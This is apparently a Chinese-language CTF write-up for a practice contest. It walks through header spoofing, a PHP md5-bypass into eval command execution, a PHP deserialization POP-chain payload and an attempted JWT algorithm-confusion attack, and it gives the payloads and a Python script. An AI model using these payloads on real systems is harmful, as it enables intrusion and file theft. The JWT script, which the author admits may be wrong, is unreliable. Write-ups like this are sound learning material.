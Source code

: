 <div align=center>

# 0RAYS 赛博协会练习赛

</div>

## `HTTP`签到题

爆改请求报文`header`即可。

- `admin`身份

  将`Cookie`的`user`值改为`admin`

- 本地访问

  将`Referer`更改为本地`127.0.0.1`

  本地访问也可以通过更改`X-Forwarded-For: 127.0.0.1`、`Client-ip: 127.0.0.1`

- `POST`请求

  更改为`POST`即可，记住，要添加`Content-Type: application/x-www-form-urlencoded`才能传入参数值。

展示了一段源码，先是两轮`md5`绕过，然后给`cmd`传值就可以执行系统命令，直接看关键部分。

```php
// cbc1[]=1&cbc2[]=2
if($_POST['cbc1']!=$_POST['cbc2'] && md5($_POST['cbc1'])===md5($_POST['cbc2'])){
// cbc3[]=1&cbc4[]=2
    if($_POST['cbc3']!==$_POST['cbc4'] && md5($_POST['cbc3'])===md5($_POST['cbc4'])){
        eval($_GET['cmd']);
    }
}
```

成功绕过后可以给`cmd`通过`GET`方法传值，先传入一句`system("ls");`，随后发现在页面上显示了`index,php`，成功实现命令注入。

然后就是找文件，最终构造出`payload`获得`flag`内容。

```url
system(%22cd%20..%2f..%2f..%26%26cat%20flag%22);
```

<br>

## `PHP`反序列化签到题

```php
<?php
//flag is in flag.php
class A { 
    private $a;
    function __destruct() { 
        ($this->a)(); 
    }
}
class B {
    private $b;
    public function __invoke(){
        echo $this->b;
    }
    public function __toString() {
        return file_get_contents($this->b);
    }
}
if (isset($_GET['a'])) {
    unserialize($_GET['a']);
} else {
    highlight_file(__FILE__);
}
```

反序列化，阅读代码后构造`pop`链。

```
isset()             =>
unserialie()        =>
__destruct()        => 
__invoke()          =>
__toString()        =>
file_get_contents()
```

一层层触发即可，构造出`payload`，最后就是让`flag.php`的内容输出在屏幕上就行。

```
O:1:"A":1:{s:1:"a";O:1:"B":1:{s:1:"b";O:1:"B":1:{s:1:"b";s:8:"flag.php";}}}
```

> 推荐个`php`反序列化教程： [点击](https://www.freebuf.com/articles/web/347246.html)

<br>

## JWT初试

第一次做`JWT`类型的题，难度全在自己的环境上 :yum:。

虽说思路没错，但最后确实没得到`flag`。

进入页面，得到一段`token`。

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc0NURmVyIjpmYWxzZSwiaWF0IjoxNjcwNzczMTY4fQ.cJhW0fIhRnqgDxPSRCzukOODLhRFlHPP4kCHLIfKc7iETdQi20J80QKfXAKJLTeroHAdBJ4w6rG4CytV1TSmsddEcr3PbuqsuPgZL9cEohQbp42AD9YRv7eGFv_lzB59Jp5iq5-B8FtUgwGFQhyIZ6KYG__Zyzt--iGPqQVOLsl5xPgYbvSRbwt0mJ_bwLpXMTT69Zkr_9eQ5Cm5D2lhVE5qmOhMgzvGb1_9KxIPq9QqhPExyzUq1J8_NO2uqGeQ-iqaB9q2-qBllLUda66v00ykUIRBNQjfciFy7DcdFdJ8NCJMrhKR12A7JNwicy7KpPbbuUt-5Bba8nliLdUo1g
```

`base64`解码，得到如下内容。

```
{"alg":"RS256","typ":"JWT"}{"username":"user","isCTFer":false,"iat":1670773168}	m"g=$BΩ82ᄙG<$rȼ;D݂-'͐)(ӺЉ㎫]SJktG+ܶpJ!Ax؀axao0yyA[TBg!N.ɹĸnot.̍>fJyBD橎ȳfH>Pć,ԫR|4�gYKQֺ꽴ʅDP".ñѝ'Â$ʡ)vM§2쪏m[kɥTX
```

点击提供的链接，进入`/flag`页面，得到`rsa`公钥。

没大思路了，返回主页`f12`又发现经过`base64`编码的一段`html`注释，解码后得到一段`nodejs`代码。边看边学。

```javascript
// require()引入当前目录下的文件，使用其中的对象或方法
var { expressjwt } = require("express-jwt");
var path = require('path');
var jwt = require("jsonwebtoken");
const express = require('express');
var cookieParser = require('cookie-parser');
var fs = require("fs");

// 实例化app，同时指定了3000端口
const app = express();
const port = 3000

// 这里好像指定了中间件
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());
// readFileSync用于同步读取文件并返回一个字符串，但是访问这两个路径的话，返回主体和/flag相同
var publicKey = fs.readFileSync('./config/public.pem');
var privateKey = fs.readFileSync('./config/private.pem');
// 获取同级目录下的 flag 
var flag = fs.readFileSync("./flag");
app.use(expressjwt({ secret: publicKey, algorithms: ["HS256", "RS256"]}).unless({ path: ["/"] }));
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'twig');


// get请求 访问/
app.get('/', async (req, res) => {
    const token = jwt.sign({ username: 'user', isCTFer: false}, privateKey, { algorithm: "RS256" });
    res.render('index', { title: "æ¬¢è¿æ¥å°èµåç©ºé´" ,tip:"è¿æ¯ä½ çèº«ä»½ä»¤ç:",token: token });
})


// post请求 访问/flag
// 我认为这里就是关键了，想办法把token里的isCTFer改为true并传进去就好了，
app.post('/flag', async (req, res) => {
    // post 请求中的 auth 请求头若 isCTFer 为True， 则输出 flag
    if(req.auth.isCTFer === true){
        res.send(flag);
    }else if(req.auth.isCTFer === false) {
        res.send("CBCTF{Su13m1t_it_f4stly_aNd_y0u_will_f1nd_that_you_Hav3_bEen_cHeated}");
    }
    
})

app.use(function(req, res, next) {
    next(createError(404));
  });
  
app.use(function(err, req, res, next) {
  
  res.locals.message = err.message;
  res.locals.error = req.app.get('env') === 'development' ? err : {};
  res.render('hint',{message: "æ³æ¿å°flagå°±å¿é¡»åè¯æèªå·±çå®å",hint:"there are something useful:",publickey:publicKey});
});


app.listen(port, () =>{
    console.log(`Node app listening on port ${port}`);
})
```

额，注释是我加到，原文没有。

简单地说，就是要`POST`请求`/flag`页面，并且要求请求报文中的`auth`头携带`isCTFer`，且其值为`true`。

浅浅地了解一下`JWT token`，需要将本地需要私钥的`RSA256`更改为本地需要公钥的`HSA256`，并且将`isCTFer`的值修改为`true`。

借助`python`的`jwt`库写了个生成`jwt token`的脚本，过程中出现了各种各样的奇怪的环境问题，折腾了一整天......

````python
import jwt

secret = "-----BEGIN RSA PUBLIC KEY-----\nMIIBCgKCAQEArUZcjss6Ys6iyeelF+c784cftrQ2zvJK+vmIk+7A8Fg2mz4yKwwGvuRsI9DW6isRkaWtmaZwNALmEqivYKSPCSsHZ+yZ2vRIZNUYADGvEsaTSSx/UGBVneyuK10gAza5tNfONO8SMT8NTz73Pw2RDEj0ShlirUxhECGiqMrCw8l/XgoH8ObZTCd9ky/4Eub7gTibKI63dFeoqNl1cZiASSLc3dogmZoLtV5tDahzHeqR7LAHFkIqT/UJV80WXa6TYWDW5B8vhnC12iJPjdaeW+D2yAeWFliC8sAxwPhPY/6za9iN0RMZ22cVUXw0JSiybKhwPeAWmZSFoabB7WkXFQIDAQAB\n-----END RSA PUBLIC KEY-----\n"

payload_ = {"username":"user","isCTFer":true,"iat":1670723098}

header_ = {"alg":"RS256","typ":"JWT"}

encoded = jwt.encode(payload_, secret, algorithm='RS256', headers=header_).decode('ascii')

print(encoded)

````

到现在还不确定脚本的正误，我感觉很有可能是我传的参数有问题，等等看官方的`wp`吧。

